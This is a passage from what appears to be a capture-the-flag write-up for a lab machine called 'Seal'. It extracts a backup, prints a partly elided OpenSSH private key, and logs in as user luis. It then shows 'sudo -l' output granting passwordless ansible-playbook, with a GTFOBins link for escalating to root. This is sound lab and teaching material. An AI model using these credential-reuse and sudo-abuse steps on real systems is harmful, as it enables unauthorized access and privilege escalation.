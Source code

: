 ```console
cp backup-2024-02-02-14:25:33.gz /dev/shm/
gunzip backup-2024-02-02-14:25:33.gz
mv backup-2024-02-02-14:25:33 backup.tar
tar xvf backup.tar
```

```console
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs3kISCeddKacCQhVcpTTVcLxM9q2iQKzi9hsnlEt0Z7kchZrSZsG
...
ueX7aq9pIXhcGT6M9CGUJjyEkvOrx+HRD4TKu0lGcO3LVANGPqSfks4r5Ea4LiZ4Q4YnOJ
u8KqOiDVrwmFJRAAAACWx1aXNAc2VhbAE=
-----END OPENSSH PRIVATE KEY-----
```

```console
└─╼$ ssh -i id_rsa luis@$IP
The authenticity of host '10.10.10.250 (10.10.10.250)' can't be established.
ED25519 key fingerprint is SHA256:CK0IgtHX4isQwWAPna6oD88DnRAM9OacxQExxLSnlL0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.250' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
...
luis@seal:~$ id
uid=1000(luis) gid=1000(luis) groups=1000(luis)
luis@seal:~$ uname -a
Linux seal 5.4.0-80-generic #90-Ubuntu SMP Fri Jul 9 22:49:44 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

### luis -> root: sudo misconfiguration

Enumerate `sudo`:

```console
luis@seal:~$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
```

- [ansible playbook | GTFOBins](https://gtfobins.github.io/gtfobins/ansible-playbook/#sudo)

![image-20240203024909451](./Seal.assets/image-20240203024909451.png)
